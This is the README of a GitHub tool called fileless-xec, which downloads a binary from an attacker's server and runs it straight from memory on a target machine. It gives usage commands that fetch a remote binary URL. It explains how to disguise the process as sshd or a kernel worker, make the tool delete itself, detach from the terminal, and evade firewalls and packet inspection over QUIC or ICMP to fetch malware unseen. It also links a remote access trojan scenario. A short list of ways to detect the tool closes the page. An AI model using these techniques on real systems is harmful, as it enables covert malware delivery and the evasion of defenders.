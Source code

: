 <h1 align=center> ➲ fileless-xec 🦜</h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine

## ➲ Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

**[➪ Install](https://github.com/ariary/fileless-xec/blob/main/install.md)**

 - simple usage `fileless-xec <binary_url>` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/fileless-xec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun). Once writeNsleep started fileless-xec will delete itself (<code>--self-remove</code>)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* [Bypass network restriction using ICMP](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
  * [RAT (Remote Access Trojan) scenario](https://github.com/ariary/fileless-xec/blob/main/usage.md#rat-remote-access-trojan-scenario)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## ➲ Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```

Or also [`opensnoop`](https://github.com/brendangregg/perf-tools/blob/master/opensnoop) (but not by [`execsnoop`](https://github.com/brendangregg/perf-tools/blob/master/execsnoop))

